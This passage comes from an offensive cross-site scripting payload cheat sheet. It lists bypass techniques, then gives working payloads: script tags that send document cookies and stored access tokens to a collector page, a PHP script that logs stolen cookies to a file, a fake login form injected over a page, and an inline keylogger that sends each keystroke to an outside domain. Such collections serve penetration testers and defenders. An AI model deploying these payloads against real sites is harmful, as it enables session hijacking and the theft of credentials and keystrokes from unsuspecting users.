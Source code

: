  - [Bypass using BOM](#bypass-using-bom)
  - [Bypass using weird encoding or native interpretation](#bypass-using-weird-encoding-or-native-interpretation)
  - [Bypass using jsfuck](#bypass-using-jsfuck)
- [CSP Bypass](#csp-bypass)
- [Common WAF Bypass](#common-waf-bypass)



## Exploit code or POC

### Data grabber for XSS

Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

Write the collected data into a file.

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```

### UI redressing

Leverage the XSS to modify the HTML content of the page in order to display a fake login form.

```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>"
</script>
```

### Javascript keylogger

Another way to collect sensitive data is to set a javascript keylogger.

```javascript
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```
